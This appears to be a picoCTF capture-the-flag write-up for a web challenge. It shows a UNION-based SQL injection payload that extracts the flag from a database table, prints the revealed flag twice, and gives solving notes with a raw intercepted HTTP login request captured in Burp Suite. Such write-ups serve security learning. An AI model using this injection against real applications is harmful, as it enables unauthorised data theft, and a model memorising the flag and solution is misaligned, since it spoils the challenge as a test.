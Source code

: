 ```sql
123' UNION SELECT flag, null, null from more_table;--
```

| City | Address | Phone |
| --- | --- | --- |
| If you are here, you must have seen it |  |  |
| picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37} |  |  |

<aside>
⛳

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}

---

</aside>

---

## Readme

### Description

> 
> 

### Thought process of mine

- Try opening the site and login with the credentials
- You will see a search field after the login, now try to search for some keywords like flag, pico etc
- You will see nothing but a ? pop in the URL, I’ve tried for adding some param’s like cmd etc for command execution but it didn’t work.
- So, I have gone through source code and robots.txt(Which I didn’t find).
- So, now let’s make use of Hints. They mentioned Look for “Any Redirections”.
- So, this time I opened the burpsuite and intercepted the login page and forwarded one req after another.
- Then, in the header, we can see some random text is popping login page is redirecting.

```
POST /login HTTP/1.1
Host: saturn.picoctf.net:50879
Content-Length: 30
Cache-Control: max-age=0
Origin: http://saturn.picoctf.net:50879
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://saturn.picoctf.net:50879/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=kfnuk6c72a78ua7nvnr83qi2ls
Connection: close

	username=test&password=test%21
```
